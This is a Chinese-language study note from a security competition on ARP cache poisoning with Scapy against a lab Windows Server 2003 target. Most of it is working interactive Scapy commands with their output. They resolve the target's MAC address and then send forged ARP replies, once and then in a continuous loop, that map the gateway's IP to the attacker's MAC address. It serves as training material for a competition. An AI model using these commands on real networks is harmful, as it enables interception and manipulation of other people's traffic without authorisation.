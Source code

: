 ### 使用Scapy对ARP协议缺陷进行利用



本篇笔记是对省赛的笔记[scapy.md](<https://github.com/leaf-lxh/note/blob/master/%E7%9C%81%E8%B5%9B/%E7%9F%A5%E8%AF%86%E5%82%A8%E5%A4%87/scapy.md>)的补充说明，另外针对国赛使用的环境，使用python3



#### 安装

```
$ sudo python3 -m pip install scapy
```

#### 场景

| 角色                      | 网卡接口 | IP地址         | 硬件地址          | 网关地址      |
| ------------------------- | -------- | -------------- | ----------------- | ------------- |
| 攻击机-Ubuntu18.04        | ens33    | 192.168.247.24 | 00:0c:29:a7:3b:4d | 无            |
| 靶机A-Windows Server 2003 | 本地连接 | 192.168.247.16 | 00:0C:29:4A:25:26 | 192.168.247.2 |
| 局域网网关                | 无       | 192.168.247.2  | 00:50:56:fe:55:fe | 无            |


#### 手工利用
```
#创建raw_socket需要root权限
$ sudo scapy
#设定使用的网络接口
>>> conf.iface="ens33"
=============================================================================
#目的：查询靶机A的硬件地址
#使用sr1函数，发送一个数据包，接收一个数据包
#使用ARP类构造ARP数据包，操作码op指定为1或"who-has"，目标IP地址pdst指定为靶机IP地址
#其他的选项会自动根据环境填充：本机ip地址，本机硬件地址
#sr1函数返回靶机响应的ARP数据包，数据包中的hwsrc为靶机的硬件地址
>>> sr1(ARP(op=1, pdst="192.168.247.16")).hwsrc
Begin emission:
*Finished sending 1 packets.

Received 1 packets, got 1 answers, remaining 0 packets
'00:0c:29:4a:25:26'
=============================================================================
#目的：查询当前使用的网卡的硬件地址
>>> ARP().hwsrc
'00:0c:29:a7:3b:4d'
=============================================================================
#目的：告知靶机A，网关的硬件地址为攻击机的硬件地址
#使用send函数，发送数据包，不接收返回数据包
#使用ARP类构造ARP数据包，操作码op指定为2，指定源IP地址为网关地址，指定目标IP地址为靶机
#其他的选项会根据环境进行自动填充：本机硬件地址
>>> send(ARP(op=2, psrc="192.168.247.2", pdst="192.168.247.16"))
.
Sent 1 packets.
=============================================================================
#目的：基于上题的目的，改为循环发送ARP数据包，保持靶机被毒化状态
#使用srloop函数循环发送数据包
#由于主机接收到ARP响应报文后不会回应，所以这个函数接收不到数据包，所以会是fail
#实验时发现win server 2003接收到arp响应报文后，只有当arp表中有相应的IP项，才会根据报文进行更新
#如果没有对应的IP项，不会根据响应报文创建IP-MAC映射关系
>>> srloop(ARP(op=2, psrc="192.168.247.2", pdst="192.168.247.16"))
fail 1: ARP is at 00:0c:29:a7:3b:4d says 192.168.247.2
fail 1: ARP is at 00:0c:29:a7:3b:4d says 192.168.247.2
fail 1: ARP is at 00:0c:29:a7:3b:4d says 192.168.247.2
fail 1: ARP is at 00:0c:29:a7:3b:4d says 192.168.247.2


```

